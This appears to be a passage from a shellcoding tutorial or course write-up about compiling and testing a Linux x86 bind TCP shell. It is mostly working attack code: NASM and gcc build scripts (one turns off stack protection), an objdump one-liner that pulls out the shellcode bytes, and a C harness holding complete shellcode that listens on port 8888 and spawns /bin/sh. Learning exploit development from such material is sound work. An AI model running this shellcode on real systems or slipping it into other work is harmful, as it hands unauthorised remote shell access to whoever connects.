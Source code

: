 ## Executing the Code

To compile the NASM file with the bind TCP shell code, the following bash script is used.

````
#!/bin/bash
#Example of execution: ./compile.sh shell_bind_tcp

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
````
``compile.sh``

After that, the following command will extract the shellcode from the binary: ``objdump -d ./shell_bind_tcp|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'``

To verify the shellcode the following C code is used, including a variable that can be set to any port number in *little-endian* format to easy the port configuration.
````
#include<stdio.h>
#include<string.h>

#define PORT_NUMBER "\x22\xB8" // 8888

unsigned char code[] = \
"\x99\x52\x6a\x01\x5b\x53\x6a\x02\x6a\x66\x58\x89\xe1\xcd\x80\x43\x52\x66\xbe"
PORT_NUMBER
"\x56\x66\x53\x89\xe1\x6a\x10\x51\x50\x89\xe1\x5f\xb0\x66\xcd\x80\x43\x43\x52"
"\x52\x57\x89\xe1\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x89\xc3\x31\xc9\xb1\x03"
"\x49\xb0\x3f\xcd\x80\x75\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89"
"\xe3\xb0\x0b\xcd\x80";


main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
````
``shellcode.c``

To compile this C code, the following bash script could be executed including the name of the C file (without extension):

````
#!/bin/bash
#Example of execution ./compile_shellcode.sh shellcode

echo '[+] Compiling without stack protector and execstack ... '
gcc -fno-stack-protector -z execstack $1.c -o $1
echo '[+] Done!'
````
``compile_shellcode.sh``
